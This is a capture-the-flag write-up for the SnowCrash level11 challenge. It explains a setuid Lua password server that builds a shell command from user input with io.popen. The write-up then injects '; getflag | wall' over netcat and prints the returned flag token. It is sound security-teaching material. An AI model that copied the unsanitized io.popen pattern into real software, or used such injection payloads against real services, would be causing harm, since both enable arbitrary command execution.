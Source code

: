 # Subprocess on user-provided input in script run by privileged use
# Privilege escalation via code injection


```
level11@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
-r-x------  1 level11 level11  675 Apr  3  2012 .profile
```

```
level11@SnowCrash:~$ cat level11.lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end

```

Listens for incoming TCP connections on 127.0.0.1:5151.

This Lua script runs a server on port 5151 that prompts for a password,
hashes it, 
checks if the hash matches a pre-set value. 
If it matches, it congratulates the user; if not, it denies access.

### Vulnerability
There is a line that is easily exploitable

```
prog = io.popen("echo "..pass.." | sha1sum", "r")
```

it is easily exploitable because it constructs a shell command by directly embedding untrusted user input (pass) without any form of validation or sanitization. Here's why it's a security risk:

That is what we will do:

```
level11@SnowCrash:~$ echo '; getflag | wall' | nc localhost 5151
                                                                               
Broadcast Message from flag11@Snow                                             
        (somewhere) at 23:27 ...                                               
                                                                               
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s  
```

- This command exploits injection vulnerability
The use of the semicolon ; in the injected command '; getflag | wall' terminates the echo command that is part of the script's command string.

- After the echo command is terminated, the getflag command is executed.

- The pipe | operator takes the output of the getflag command and redirects it to the wall command, which broadcasts the message to all users on the system.

When the server script concatenates the user input (in this case, the payload '; getflag | wall') into the shell command and executes it with io.popen, it unintentionally allows the execution of arbitrary commands. If the server does not adequately sanitize the user input, it will run the getflag command and display its output to all users
